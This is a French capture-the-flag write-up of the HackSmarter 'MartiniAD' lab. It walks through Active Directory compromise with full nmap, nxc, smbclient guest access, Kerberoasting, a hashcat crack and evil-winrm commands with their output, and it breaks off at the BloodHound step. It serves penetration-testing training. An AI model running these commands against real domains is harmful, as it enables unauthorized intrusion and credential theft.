[🇬🇧 English](README.md) | [🇫🇷 Français](README.fr.md)

---

# MartiniAD (Facile) — HackSmarter


**Cible :** 10.1.123.189 (DC01)
**OS :** Windows Server 2025 Build 26100
**Domaine / DC :** DRY.MARTINI.BARS / DC01.DRY.MARTINI.BARS
**Difficulté :** Facile
**Catégorie :** Active Directory
**Plateforme :** HackSmarter (hacksmarter.org)

---

## Objectif du Challenge

> Une société de boissons alcoolisées « Martini Bars » a récemment subi une intrusion, et l'équipe conformité/risques exige un test d'intrusion sur l'une de leurs agences. L'équipe Hack Smarter a été mandatée pour réaliser un pentest interne en boîte noire.
>
> **Accès initial :** Le client fournit un accès VPN au réseau interne, mais aucun identifiant.
>
> **Objectif :** Récupérer le hash NT du compte KRBTGT.



---

## Résumé de la Chaîne d'Attaque

```
Scan de ports → Services AD identifiés sur DC01
  → Énumération des partages SMB (sans creds) → partage "notes" accessible
    → Session Guest sur "notes" → credentials en clair pour mprice
      → Énumération authentifiée des utilisateurs → liste incl. ATHENA_SVC, athena.t0
        → Kerberoasting d'ATHENA_SVC (possède un SPN HTTP)
          → Crack hors ligne (hashcat) → mot de passe d'ATHENA_SVC récupéré
            → Accès WinRM confirmé en tant qu'ATHENA_SVC (Remote Management Users)
              → Collecte SharpHound → analyse du graphe BloodHound CE
                → Aucun chemin ACL exploitable trouvé depuis ATHENA_SVC
                  → Spray de credentials : mot de passe d'ATHENA_SVC contre tous les users énumérés
                    → Hit : athena.t0 — Administrateur local sur DC01
                      → secretsdump (DRSUAPI / DCSync) en tant qu'athena.t0
                        → Hash NT du KRBTGT extrait
```

---

## 1. Reconnaissance — Scan de Ports

### Théorie
Avant de s'attaquer spécifiquement à l'Active Directory, un scan de ports TCP complet indique à quel type d'hôte on a affaire. Une machine exposant simultanément 88 (Kerberos), 389/636 (LDAP/LDAPS), 445 (SMB) et 3268/3269 (Global Catalog) est presque toujours un Contrôleur de Domaine — cela conditionne toute la suite de l'attaque (on sait qu'on vise l'AD, pas une machine Windows isolée).

```bash
nmap -p- -sV 10.1.123.189
```

**Résultat :**
```
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
```

**Constat :** la pile complète de services AD est présente (DNS, Kerberos, LDAP, SMB, Global Catalog, WinRM, ADWS) → **il s'agit d'un Contrôleur de Domaine.**



---

## 2. Identification du Domaine et du DC

### Théorie
Les bannières SMB et LDAP révèlent le nom de domaine, le hostname, la version d'OS et — point important — si la signature SMB/LDAP est imposée. Le statut de signing compte pour la suite : une signature SMB désactivée signifierait qu'une attaque de relais NTLM contre cet hôte serait viable (non exploitée dans ce chemin, mais à noter pour le rapport).

```bash
nxc smb 10.1.123.189
nxc ldap 10.1.123.189
```

**Résultat :**
```
SMB   10.1.123.189   445   DC01   [*] Windows 11 / Server 2025 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:False) (SMBv1:None)
LDAP  10.1.123.189   389   DC01   [*] Windows 11 / Server 2025 (name:DC01) (domain:DRY.MARTINI.BARS) (signing:Enforced) (channel binding:No TLS cert)
```

**Constat :** le domaine est `DRY.MARTINI.BARS`, le hostname du DC est `DC01`. La signature SMB est **désactivée** (relevé comme finding pour le rapport, non exploité dans ce chemin). La signature LDAP est imposée, ce qui cassera plus tard certains outils d'énumération historiques (voir étape 10).



---

## 3. Énumération des Partages SMB (Sans Credentials)

### Théorie
Avant de supposer qu'il faut des identifiants, la pratique standard consiste à vérifier ce qu'une session **non authentifiée** ou **NULL** peut atteindre. SMB sous Windows autorise historiquement les utilisateurs anonymes à au moins *lister* les noms des partages (pas forcément en parcourir le contenu), sauf durcissement explicite. Cela ne coûte rien et révèle souvent des partages personnalisés (non par défaut) qui trahissent une mauvaise configuration — ici, un partage nommé `notes` se distingue immédiatement des partages standards `ADMIN$`, `C$`, `IPC$`, `NETLOGON`, `SYSVOL`.

```bash
enum4linux-ng -A 10.1.123.189
```

**Résultat (section pertinente) :**
```
=================================( Share Enumeration on 10.1.123.189 )=================================

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        notes           Disk
        SYSVOL          Disk      Logon server share

[+] Attempting to map shares on 10.1.123.189

//10.1.123.189/ADMIN$   Mapping: DENIED Listing: N/A    Writing: N/A
//10.1.123.189/C$       Mapping: DENIED Listing: N/A    Writing: N/A
//10.1.123.189/IPC$     Mapping: OK     Listing: DENIED Writing: N/A
//10.1.123.189/NETLOGON Mapping: DENIED Listing: N/A    Writing: N/A
//10.1.123.189/notes    Mapping: OK     Listing: DENIED Writing: N/A
//10.1.123.189/SYSVOL   Mapping: DENIED Listing: N/A    Writing: N/A
```

**Constat :** une session anonyme/NULL peut **établir une connexion** (mapper) sur le partage `notes`, mais ne peut pas en **lister** le contenu via cette méthode automatisée. L'existence du partage et son accessibilité partielle (Mapping: OK) sont le signal qu'il faut tenter une connexion manuelle et interactive avec différents types de credentials (NULL, puis Guest) plutôt que de se fier à la méthode de listing automatisée que l'outil a tentée.



---

## 4. Accès Initial — Session Guest sur le Partage "notes"

### Théorie
« Mapping: OK, Listing: DENIED » signifie que la connexion SMB (tree connect) réussit mais que la méthode d'énumération spécifique utilisée par l'outil a été rejetée — cela **ne signifie pas** que le partage est illisible, seulement que ce test automatisé précis a échoué. L'étape logique suivante est de se connecter manuellement avec `smbclient` et de tester les quelques types de credentials qui fonctionnent couramment sur des partages mal configurés : d'abord la session NULL, puis le compte intégré `Guest` (souvent activé, même désactivé par défaut sur Windows moderne, dans les environnements de lab/formation).

```bash
smbclient //10.1.123.189/notes -U 'guest'
```

**Résultat :**
```
user GUEST accepted
smb: \> ls
smb: \> get note.txt
...

- Order more gin for lakeside
- Look for an engagement ring
- Check that notes works from Linux Mint

creds
mprice:[REDACTED]
```

**Constat :** l'accès Guest a réussi là où la session NULL avait échoué, et le partage contient une note en clair avec une paire identifiant/mot de passe : `mprice:[REDACTED]`. Il s'agit d'une mauvaise configuration classique — une note interne déposée sur un partage lisible par tous — qui devient notre premier point d'ancrage.



---

## 5. Énumération Authentifiée des Utilisateurs

### Théorie
Avec un credential valide à faible privilège, on passe d'une énumération non authentifiée à une énumération **authentifiée**, bien plus riche : les options SMB `--users` (via SAMR) et LDAP `--users` retournent la liste complète des comptes du domaine, leur date de dernier changement de mot de passe et leur compteur de mauvais mots de passe. C'est ainsi qu'on découvre des comptes dont on ignorait l'existence, y compris ceux dont le nommage est inhabituel ou évocateur.

```bash
nxc smb 10.1.123.189 -u 'mprice' -p '[REDACTED]' --users
```

**Résultat :**
```
SMB   10.1.123.189   445   DC01   [+] DRY.MARTINI.BARS\mprice:[REDACTED]
SMB   10.1.123.189   445   DC01   -Username-      -Last PW Set-        -BadPW- -Description-
SMB   10.1.123.189   445   DC01   Administrator    2026-01-12 16:00:19  0       Built-in account for administering the computer/domain
SMB   10.1.123.189   445   DC01   Guest            <never>              0       Built-in account for guest access to the computer/domain
SMB   10.1.123.189   445   DC01   krbtgt           2026-01-17 01:19:20  0       Key Distribution Center Service Account
SMB   10.1.123.189   445   DC01   mprice           2026-01-17 16:40:55  0
SMB   10.1.123.189   445   DC01   athena.t0        2026-01-20 18:20:44  0
SMB   10.1.123.189   445   DC01   ATHENA_SVC       2026-01-20 18:20:32  0
SMB   10.1.123.189   445   DC01   [*] Enumerated 6 domain users: DRY
```

**Constat :** six comptes de domaine au total. Deux se distinguent des comptes génériques intégrés : `ATHENA_SVC` (convention de nommage d'un compte de service) et `athena.t0` (convention souvent utilisée pour un compte administratif **tier-0**, c'est-à-dire hautement privilégié). Les deux partagent le préfixe « athena », ce qui prendra son importance plus tard.



---

## 6. Kerberoasting

### Théorie — qu'est-ce qu'un SPN, et pourquoi le Kerberoasting fonctionne
Un **Service Principal Name (SPN)** identifie de façon unique une instance de service sur le réseau (ex : `HTTP/athena.dry.martini.bars`, `MSSQLSvc/sql01:1433`). Il permet à un client de demander un ticket de service Kerberos (TGS) pour ce service précis plutôt que de lui parler directement. Le Key Distribution Center (KDC, c'est-à-dire le DC) délivre ce TGS chiffré avec **le hash NTLM / la clé Kerberos du compte propriétaire du SPN** — généralement un compte de service dédié, pas un compte machine.

Point critique : **Kerberos autorise n'importe quel utilisateur authentifié du domaine à demander un TGS pour n'importe quel SPN existant**, sans privilège particulier — c'est un comportement normal et voulu (comment un client saurait-il autrement à l'avance quel service il va appeler ?). La requête elle-même ne génère aucune entrée de log suspecte ; elle est indiscernable d'un accès légitime à un service.

La faille n'est pas dans le protocole — elle est dans **l'hygiène des credentials** : le TGS n'est robuste que si le mot de passe du compte de service l'est. Une fois ce TGS en main hors ligne, on peut le brute-forcer sans retoucher le DC, sans risque de verrouillage de compte (les échecs de pré-authentification Kerberos verrouillent les comptes ; le crack hors ligne d'un ticket déjà émis ne le fait pas).

```bash
impacket-GetUserSPNs dry.martini.bars/mprice:'[REDACTED]' -dc-ip 10.1.123.189 -request
```

**Résultat :**
```
ServicePrincipalName          Name        MemberOf                                                        PasswordLastSet             LastLogon  Delegation
-----------------------------  ----------  ---------------------------------------------------------------  --------------------------  ---------  ----------
HTTP/athena.dry.martini.bars   ATHENA_SVC  CN=Remote Management Users,CN=Builtin,DC=DRY,DC=MARTINI,DC=BARS  2026-01-20 18:20:32.856622  <never>

$krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$dry.martini.bars/ATHENA_SVC*$[REDACTED]
```

**Constat :** `ATHENA_SVC` est le seul compte portant un SPN (`HTTP/athena.dry.martini.bars`) et appartient au groupe **Remote Management Users** (accès WinRM) — en faisant une cible de Kerberoasting à forte valeur : le casser ne donnera pas que des credentials de domaine, mais un accès shell distant.



---

## 7. Crack Hors Ligne

### Théorie
Le blob TGS récupéré ci-dessus (`$krb5tgs$23$...`) est au format standard **hashcat mode 13100** (Kerberos 5, etype 23, TGS-REP). Le cracker est une attaque par dictionnaire/brute-force contre le mot de passe du compte de service, entièrement hors ligne — sans aucune autre interaction réseau avec la cible.

```bash
hashcat -m 13100 athena_svc.hash /usr/share/wordlists/rockyou.txt
```

**Résultat :**
```
$krb5tgs$23$*ATHENA_SVC$DRY.MARTINI.BARS$...:[REDACTED]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```

**Constat :** mot de passe d'`ATHENA_SVC` récupéré (trouvé dans rockyou.txt). Cela confirme que le compte utilisait un mot de passe crackable par dictionnaire — une politique de mot de passe faible sur les comptes de service.



---

## 8. Validation de l'Accès et Obtention d'un Shell

### Théorie
Avant toute autre action, il faut valider le credential cracké sur plusieurs protocoles. `nxc` affiche `(Pwn3d!)` quand le compte accorde un accès interactif/administratif sur ce protocole — ici cela confirme qu'`ATHENA_SVC` est à la fois un compte SMB valide **et** dispose d'un accès WinRM exploitable, cohérent avec son appartenance au groupe « Remote Management Users » découverte précédemment.

```bash
nxc smb 10.1.123.189 -u ATHENA_SVC -p '[REDACTED]'
nxc winrm 10.1.123.189 -u ATHENA_SVC -p '[REDACTED]'
```

**Résultat :**
```
SMB   10.1.123.189 445  DC01  [+] DRY.MARTINI.BARS\ATHENA_SVC:[REDACTED]
WINRM 10.1.123.189 5985 DC01  [+] DRY.MARTINI.BARS\ATHENA_SVC:[REDACTED] (Pwn3d!)
```

```bash
evil-winrm -i 10.1.123.189 -u ATHENA_SVC -p '[REDACTED]'
```

**Constat :** shell PowerShell interactif obtenu sur DC01 en tant qu'`ATHENA_SVC`. `whoami /priv` et `whoami /groups` (non reproduits intégralement) ont confirmé qu'il s'agit d'une **session utilisateur de domaine standard, non privilégiée** — aucun droit admin local, aucun privilège de token notable au-delà des valeurs par défaut (`SeMachineAccountPrivilege`, `SeChangeNotifyPrivilege`). Cela écarte toute escalade de privilèges locale triviale et oriente la méthodologie vers une analyse à l'échelle de l'Active Directory (BloodHound) plutôt qu'une privesc locale à l'hôte.



---

## 9. Configuration DNS (Prérequis pour la Collecte BloodHound)

### Théorie
Le collecteur Python de BloodHound et Kerberos lui-même sont sensibles aux noms d'hôte : les SPN Kerberos et la validation SNI LDAPS attendent que la machine attaquante résolve correctement le FQDN du DC. Sans cela, les binds LDAP/LDAPS et l'authentification Kerberos vers des outils attendant le FQDN échoueront même avec des credentials valides.

```bash
echo "10.1.123.189 dc01.dry.martini.bars dry.martini.bars DC01" | sudo tee -a /etc/hosts
sudo bash -c 'echo "nameserver 10.1.123.189" > /etc/resolv.conf'
```

**Constat :** résolution de noms confirmée fonctionnelle via `ping dc01.dry.martini.bars` et `nslookup dry.martini.bars 10.1.123.189`.



---

## 10. Collecte Active Directory — SharpHound / BloodHound CE

### Théorie
